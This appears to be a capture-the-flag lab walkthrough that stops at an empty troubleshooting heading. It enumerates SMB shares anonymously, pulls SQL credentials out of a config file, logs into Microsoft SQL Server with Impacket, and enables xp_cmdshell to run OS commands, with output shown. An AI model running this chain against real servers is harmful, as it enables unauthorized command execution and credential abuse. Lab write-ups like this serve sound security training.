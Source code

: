 **Importance:** This highlights how misconfigured database servers can be leveraged to gain command execution on the underlying operating system.

**Flag Captured:** None (privilege escalation technique)

The `EXEC xp_cmdshell` command is executed within a Microsoft SQL Server session, not through SMB. Here's a step-by-step guide to clarify the process:

## Complete Process

1. **First, enumerate SMB shares to find the backups share**:
   ```bash
   smbclient -L \\\\10.129.211.161\\
   ```

2. **Access the backups share to get credentials**:
   ```bash
   smbclient \\\\10.129.211.161\\backups
   ```
   When prompted for a password, just press Enter (null password)

3. **Download and view the config file**:
   ```
   smb: \> get prod.dtsConfig
   smb: \> exit
   cat prod.dtsConfig
   ```
   This reveals SQL credentials (ARCHETYPE\sql_svc:M3g4c0rp123)

4. **Connect to the SQL Server using the credentials**:
   ```bash
   impacket-mssqlclient ARCHETYPE/sql_svc:M3g4c0rp123@10.129.211.161 -windows-auth
   ```
   If the command isn't found, you might need to install Impacket or use the full path

5. **Now you can execute xp_cmdshell within the SQL session**:
   ```sql
   SQL> EXEC sp_configure 'show advanced options', 1;
   SQL> RECONFIGURE;
   SQL> EXEC sp_configure 'xp_cmdshell', 1;
   SQL> RECONFIGURE;
   SQL> EXEC xp_cmdshell 'whoami';
   ```

```bash
EXEC xp_cmdshell 'whoami';
output
-----------------
archetype\sql_svc

NULL

```

## Troubleshooting

